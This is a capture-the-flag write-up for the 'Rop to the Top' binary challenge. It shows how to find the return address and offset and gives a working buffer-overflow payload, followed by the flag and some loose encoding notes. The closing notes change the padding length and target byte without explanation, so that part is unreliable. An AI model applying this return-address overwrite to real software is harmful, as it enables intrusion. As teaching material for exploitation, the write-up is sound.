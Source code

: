 # Rop to the Top
binary - 130 points

## Challenge 
Rop, rop, rop

Rop to the top!

Slip and slide and ride that rhythm... 


Here's some [binary](rop_to_the_top32) and [source](rop_to_the_top.c). Navigate to `c` on the shell server to try your exploit out!

## Hint
Look up "Return Oriented Programming" (ROP) vulnerabilities and figure out how you might be able to change the return address.

## Solution

Return Address

	$ gdb ./rop_to_the_top32 
	(gdb) info add the_top
	Symbol "the_top" is at 0x80484db in a file compiled without debugging.

Offset

	$ strace ./rop_to_the_top32 $(pwn cyclic 100)
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x6161616c} ---
	+++ killed by SIGSEGV +++
	Segmentation fault

	$ pwn cyclic -l 0x6161616c
	44

Payload 

	$ ./rop_to_the_top32 $(python -c "print 'A'*44  + '\xdb\x84\x04\x08'")


## Flag

	actf{strut_your_stuff}


---

	
	team014544@shell:/problems/roptothetop$ export PYTHONIOENCODING=utf8
	team014544@shell:/problems/roptothetop$ python3 -c "print('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa'  + '\xdb\x84\x04\x08', end='')" | xxd
	00000000: 6161 6161 6261 6161 6361 6161 6461 6161  aaaabaaacaaadaaa
	00000010: 6561 6161 6661 6161 6761 6161 6861 6161  eaaafaaagaaahaaa
	00000020: 6961 6161 6a61 6161 c39b c284 0408       iaaajaaa......

Seems like the \xdb is being parsed as 2 chars

export PYTHONIOENCODING=latin-1
(python3 -c "print('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa' + '\xe1\x84\x04\x08', end='')" ) | xxd


